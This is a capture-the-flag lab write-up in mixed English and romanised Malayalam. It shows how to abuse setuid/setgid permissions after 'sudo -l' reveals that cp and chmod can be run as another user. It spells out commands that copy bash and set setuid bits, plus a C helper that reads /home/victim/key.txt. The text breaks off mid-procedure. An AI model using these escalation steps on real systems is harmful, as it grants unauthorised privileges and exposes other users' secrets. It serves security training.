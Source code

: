 # 30 - setgid
-->Here we are going to solve this challenge by creating a `setgid` program. This program will run as the `victim` group once you run it thanks to the `setgid` bit.
-->You can see that a program is setuid or setgid by looking at its permissions:
```
ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 54192 Nov 18  2015 /usr/bin/passwd
```
-->In this example, the program `/usr/bin/passwd` is setuid `root` as it will run as the user `root` even if it's started by another user. You can see the setuid bit in the output of `ls -l` with the `s` in the permissions
-->Setuid root are always a good target as they often allow privileges escalation.
-->ivide rws ile s aan set uid. so ithinte prathyekatha enthenal ethengilum oru program il ith set chyth vechal pine eth user vann ee programm run chythalum aa undakiya user aayitan aa command run chyuka.athayath njan ee command ie, /passwd run chyumbol josu aayitalla pakaram root ayitan run chyunath karnaam ee program root aayitan set chythirikunath
-->ithupole setgid permission um und ie, `-rwxrwsr-x root root 1427 Aug 2 2019 sample_file` . ivide randamathe s aan setgid
-->A few years ago, you could exploit this configuration issue by copying a shell (`bash` a long time ago and `ksh` more recently) and adding the setuid bit to it. Unfortunately most shells will now prevent this attack. But we can still do something similar by writing our own program.
-->athayath ivide namuk cp command use chyan patum.so namal ->cp /bin/bash /tmp/foo enn adichal /tmp folder il bash inte oru copy varum.enit namal aa foo il setuid permission koduth run chyunu ie ->./foo.apol namuk shell access kitumayirunu.but ipol ath nadakila.so athkond namal thane c language il program chythvenam exploit chyan ok
-->so aadyam lab open aakuka.enit ->sudo -l   adikuka :
```
User pentesterlab may run the following commands on 44a0594365c8:
	(victim) /bin/chmod, /bin/cp
```
-->so namuk chmod um cp yum victim aayi sudo vech use chyan patum
-->so ini pandathe pole /bin/bash copy chyth ulla exploit chyth nokam
-->sudo -u victim cp /bin/bash /tmp/josu
-->cd /tmp   ->ls 
-->ipol kanan namal copy chytha bash ivide josu enna file aayi kidakunath
-->so ini chmod vech ithinte setuid setgid kodukam
->sudo -u victim chmod +xs josu
->ls -la       adichal kanam josu file il rand s vannitund.so permissoin create aayi
```
-rwsr-sr-x 1 victim victim 1029624 Nov 20 12:02 josu
```
-->ivide nokiyal kanam namal sudo -u victim vech copy chythathkond thane owner and group victim user thane aan.allath namal just ->chmod +xs josu enn ittirunengil namude username oke aayirikum owner aayi kidkunath.angane vanal ee exploit nadakila karanam setuid ullathkondan namal ingane chyunath thane
-->ini namuk ee josu run chyam   so :
->./josu       adikuka enit ->id adikumbol kanam penterslab ennan kanikunath allathe victim enn kanikunila.so athinartham ee exploit nadakila.ath njn nerethe paranju ee exploit pandan nadknathen
-->so namuk thane oru c script undaki chyam ennale work aaku.ok
-->vi bar.c   
```
int main(void)
	{
	   system("cat /home/victim/key.txt");
	}
```
ee code koduth `esc`  adich :wq!  koduth enter adichal save aakum.ini ith compile chyam :
->`gcc -o bar bar.c`
-->ls -la    adichal kanam bar file dompile chyth aayitund. ini ith run chyam :
->./bar         //permission denied
-->karanam namal undakiyathan ee bar.so ie,`-rwxr-xr-x 1 pentesterlab pentesterlab 6712 Nov 20 12:11 bbar` . so ithinte permisionum owner oke namal aan.so ath nadakila.namuk vendath owner victim um permission s venam
-->so namal nerethe bash copy chytha file il thane ith copy chyam.(ilengi vere file aayalum mathi)